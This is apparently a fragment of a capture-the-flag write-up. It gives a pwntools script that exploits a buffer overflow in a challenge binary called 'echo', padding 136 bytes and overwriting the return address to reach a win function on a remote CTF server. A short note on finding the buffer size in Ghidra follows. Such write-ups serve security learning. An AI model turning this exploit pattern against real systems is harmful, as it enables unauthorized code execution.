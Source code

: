 [pwn1.py](../../data/pwn1.py)

```python
from pwn import *

# Load the binary
binary = ELF('./echo')

# Connect to remote challenge
p = remote('challenge.ctf.games', 31084)

# Address of win function
win_address = p64(0x401216)

# Buffer overflow offset: 128 bytes for the buffer + 8 bytes for the saved base pointer = 136 bytes
buffer_offset = 136

# Craft the payload
payload = b'A' * buffer_offset + win_address

# Send the payload and interact with the shell
p.sendline(payload)
p.interactive()
```

- Working in short (I would recommend you to see the previously given reference video for in-depth understanding)
    - i opened `ghidra for see the buffer size` and here is the main code,

![image.png](Files/image%2028.png)
